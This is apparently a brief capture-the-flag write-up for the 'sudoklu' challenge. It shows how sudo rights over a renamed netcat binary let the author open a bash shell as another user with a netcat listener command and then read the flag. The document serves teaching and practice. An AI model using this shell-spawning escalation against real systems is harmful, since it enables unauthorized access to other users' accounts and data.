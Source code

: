 when we spawn the instance of the chall the chall give us the basic credential

`ssh user@<instance> -p<port>` and the password is password123


`ls -la ..
total 20
drwxr-xr-x 1 root           root           4096 May 12 10:35 .
drwxr-xr-x 1 root           root           4096 May 14 13:33 ..
drwxr-x--- 1 privilegeduser privilegeduser 4096 May 12 10:35 privilegeduser
drwxr-x--- 1 user           user           4096 May 14 13:34 user

`
we see that there if  an other user who is privilegeduser.

`
sudo -l
Matching Defaults entries for user on sudoklu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User user may run the following commands on sudoklu:
    (privilegeduser) NOPASSWD: /usr/bin/socket

`
there is a way to use socket as privilegeduser without password 
and socket is just a rename of netcat so we can try to reverse shell it.
`
sudo -u privilegeduser /usr/bin/socket -Blv 127.0.0.1 1234 -p /bin/bash
`

and there is a shell on our other instance and we are privilegeduser and in the home of privilegeduser there is the flag.

`cat flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
`

Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}

